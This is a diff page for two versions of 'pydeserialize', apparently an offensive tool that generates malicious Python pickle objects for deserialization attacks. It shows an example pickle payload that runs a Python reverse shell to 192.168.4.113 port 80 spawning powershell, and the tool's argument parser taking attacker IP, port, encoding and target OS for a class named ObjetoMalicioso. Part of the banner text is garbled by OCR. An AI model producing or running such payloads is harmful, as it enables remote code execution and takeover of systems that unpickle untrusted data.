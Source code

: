 ```
 -o Windows -e shell _ _ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . |
 | | . | -_|_ -| -_| _| | .'| | |- _| -_| | _|_ |___|___|___|___|_|
-|_|__,|_|_|___|___| |_| |___| v0.0.9 - @joaoviictorti
+|_|__,|_|_|___|___| |_| |___| v0.1.0 - @joaoviictorti
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python
 -c \'import socket,subprocess,os;s=socket.socket
 (socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2
 (s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;
 pty.spawn("powershell")\'\x94\x85\x94R\x94.' ``` [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `pydeserialize-0.0.9/pydeserialize/pydeserialize.py` & `pydeserialize-0.1.0/pydeserialize/pydeserialize.py`

 * *Files 16% similar despite different names*

```diff
@@ -5,21 +5,21 @@
 def banner():
     return """                                                                                                                                                                                                                    
            _                 _     _ _         
  ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ 
 | . | | | . | -_|_ -| -_|  _| | .'| | |- _| -_|
 |  _|_  |___|___|___|___|_| |_|__,|_|_|___|___|
 |_| |___|                                                                                                                                                                            
-     v0.0.9 - @joaoviictorti                                                   
+     v0.1.0 - @joaoviictorti                                                   
 """
 
 def argumentos() -> None:
     
     parse = argparse.ArgumentParser(prog=banner(),usage="pydeserialize -ip 192.168.4.113 -p 80 -o Windows -e shell",formatter_class=RawTextHelpFormatter)
-    parse.add_argument("--version",action="version",version="pydeserialize 0.0.7")
+    parse.add_argument("--version",action="version",version="pydeserialize 0.1.0")
     parse.add_argument("-ip",action="store",type=str,dest="ip",required=True, help="Insert ip")
     parse.add_argument("-p",action="store",type=str,dest="port",required=True, help="Insert port")
     parse.add_argument("-e",action="store",type=str,dest="encode",choices=["b64","shell","urlencode","hex"],default="",required=True,help="Insert encoding")
     parse.add_argument("-o",action="store",type=str,dest="SO",choices=["Windows","Linux"],required=True,help="Insert operational system")
     args = parse.parse_args()
     
     ObjetoMalicioso(args.ip,args.port,args.encode,args.SO).Objeto_Serializado()
```
